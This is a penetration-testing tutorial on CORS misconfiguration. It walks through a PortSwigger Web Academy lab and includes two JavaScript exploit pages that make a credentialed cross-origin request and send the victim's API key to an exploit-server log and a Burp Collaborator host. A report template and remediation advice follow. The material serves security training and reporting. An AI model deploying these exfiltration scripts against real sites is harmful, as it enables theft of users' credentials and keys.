







# Cross Origin Resource Sharing

## What is it

Cross-Origin Resource Sharing (CORS) is a mechanism that allows web browsers to securely access resources (such as data, images, or scripts) on a different domain than the one from which the web page was originally served. By default, web browsers restrict such access due to security concerns, but CORS provides a standardized way to relax these restrictions.

When a web page loaded from one origin (domain, protocol, and port) tries to request resources from another origin, the browser sends an initial "preflight" request to the target server. This preflight request asks for permission to make the actual request and includes information about the intended request (e.g., HTTP method, headers, and content type). The server, in turn, responds with a set of headers indicating whether it allows the requested resource to be accessed by the requesting origin.

These headers are known as CORS headers and are part of the HTTP response. The key CORS headers are:

- Access-Control-Allow-Origin: This header specifies the allowed origin(s) that can access the resource. For example, if a server sends "Access-Control-Allow-Origin: example.com", it means that only requests originating from "example.com" will be allowed.

- Access-Control-Allow-Methods: This header lists the HTTP methods (e.g., GET, POST, PUT) allowed by the server for the requested resource.

- Access-Control-Allow-Headers: This header specifies the allowed headers in the actual request. It helps control which custom headers can be included in the request.

- Access-Control-Allow-Credentials: This header indicates whether the requesting origin is allowed to include credentials (such as cookies or authorization headers) in the request.

CORS operates as a security measure to protect users and prevent unauthorized access to resources. It allows server administrators to define fine-grained access policies for their resources, ensuring that only trusted origins can access sensitive data or perform certain actions.

If misconfigured CORS can be abused. [Here is a brillant and very well detailed explaination of this.](ttps://www.trustedsec.com/blog/cors-findings/)

## Exploitation Example

- Let's practice with the [Lab CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack) from PortSwigger Web Academy
- `wiener:peter` are our creds for the lab
- Let's launch the lab and go to "my account" in our and login with the provided creds  

  

- In Burp it looks like this. We are redirected to the `/accountDetails` page that has an apikey.  

  

- We need to send this request to the repeater and check if it is vulnerable to CORS. [This article](https://owasp.org/www-project-web-security-testing-guide/v41/4-Web_Application_Security_Testing/11-Client_Side_Testing/07-Testing_Cross_Origin_Resource_Sharing) on OWASP is really helpful for this purpose.
- To do this we add an Origin header and put a random value.  
We can see that our random value appears in the response header `Access-Control-Allow-Origin` and that on top of this the `Access-Control-Allow-Credentials` is set to true.
- See our modified request and the response here  

  

- Knowing this we can now make a script to try to get more informations. In our example we will use the exploit server provided along with burp collaborator because the Access logs from the lab is buggy.  

```javascript
<!DOCTYPE html>
<html>
<body>
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    var url = "https://0a980006031d173ec6a5e26100e000b6.web-security-academy.net"
    
    req.onreadystatechange = function() {  
        fetch("/log?key="+req.responseText)
    }
    req.open('GET',url + "/accountDetails", true);
    req.withCredentials = true;
    req.send(null);
</script>
</body>
</html>
```

```javascript
<!DOCTYPE html>
<script>
    var victim = 'https://0aa600f704497dbac19a806500ef0037.web-security-academy.net/accountDetails';
    var collaborator = 'https://utr17g244hmkya8obx3uzsbcc3iu6lua.oastify.com';

    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET',victim,true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        req.open("GET", collaborator+"/?key="+req.response, true);
        req.send();
    };
</script>
```

- Thanks to [Lisandre](https://lisandre.com/penetration-tests/web-applications-apis/cors) for the exploit script. (I just removed the encoding to base64)  
It is the cleanest one I have seen so far and also the most readable.

- Let's put our script in the exploit server and click on Deliver Exploit to victim



- Once stored we click on "deliver to victim"
- Now we can check our collaborator. We will have a new request with the content we need.



- If we select the string the inspector will decode it from URL encoding for more readability  



- We just need to take the apikey value and paste it in submit solution and we successfuly exploited a cors misconfiguration.



## How to report

> *Note: Here is an example on how to report it, CVSS score is here as a reference but you should always check out the context of your customer to calculate it*

```md
## CVSS

cvss_vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:N/I:L/A:N

## Description

Cross Origin Resource Sharing (CORS) is a mechanism that enables a web browser to perform cross-domain requests using the XMLHttpRequest (XHR) Level 2 (L2) API in a controlled manner. In the past, the XHR L1 API only allowed requests to be sent within the same origin as it was restricted by the Same Origin Policy (SOP).

Cross-origin requests have an Origin header that identifies the domain initiating the request and is always sent to the server. CORS defines the protocol to use between a web browser and a server to determine whether a cross-origin request is allowed. HTTP headers are used to accomplish this.

The W3C CORS specification mandates that for non simple requests, such as requests other than GET or POST or requests that uses credentials, a pre-flight OPTIONS request must be sent in advance to check if the type of request will have a bad impact on the data. The pre-flight request checks the methods and headers allowed by the server, and if credentials are permitted. Based on the result of the OPTIONS request, the browser decides whether the request is allowed or not.

In our context, the CORS was misconfigured and we were able to exploit it in order to access the confidential administrator apikey.

## Affected elements

- https://0aa600f704497dbac19a806500ef0037.web-security-academy.net/accountDetails

## Evidence

Here you can put the code of the PoC and screens of collaborator as proof of successful exploitation.

## Remediation

Make sure cors is properly configured:

- Validate URLs passed to XMLHttpRequest.open. Current browsers allow these URLs to be cross domain; this behavior can lead to code injection by a remote attacker. Pay extra attention to absolute URLs.
- Ensure that URLs responding with Access-Control-Allow-Origin: * do not include any sensitive content or information that might aid attacker in further attacks. Use the Access-Control-Allow-Origin header only on chosen URLs that need to be accessed cross-domain. Don't use the header for the whole domain.
- Allow only selected, trusted domains in the Access-Control-Allow-Origin header. Prefer allowing specific domains over blocking or allowing any domain (do not use * wildcard nor blindly return the Origin header content without any checks).
- Keep in mind that CORS does not prevent the requested data from going to an unauthorized location. It's still important for the server to perform usual CSRF prevention.
- While the Fetch Standard recommends a pre-flight request with the OPTIONS verb, current implementations might not perform this request, so it's important that "ordinary" (GET and POST) requests perform any access control necessary.
- Discard requests received over plain HTTP with HTTPS origins to prevent mixed content bugs.
- Don't rely only on the Origin header for Access Control checks. Browser always sends this header in CORS requests, but may be spoofed outside the browser. Application-level protocols should be used to protect sensitive data.

## Reference

- [HTML5 Security Cheat Sheet - Cross Origin Resource Sharing - OWASP](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#cross-origin-resource-sharing)
- [OWASP - Testing Cross Origin Resource Sharing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing)
```

## Resources

- [OWASP - Testing Cross Origin Resource Sharing](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing)
- [Lisandre - Cross Origin Resource Sharing (CORS)](https://lisandre.com/penetration-tests/web-applications-apis/cors)
- [Hacktricks - CORS Bypass](https://book.hacktricks.xyz/pentesting-web/cors-bypass)
- [Hackerone report for US DoD - Cors](https://hackerone.com/reports/470298)
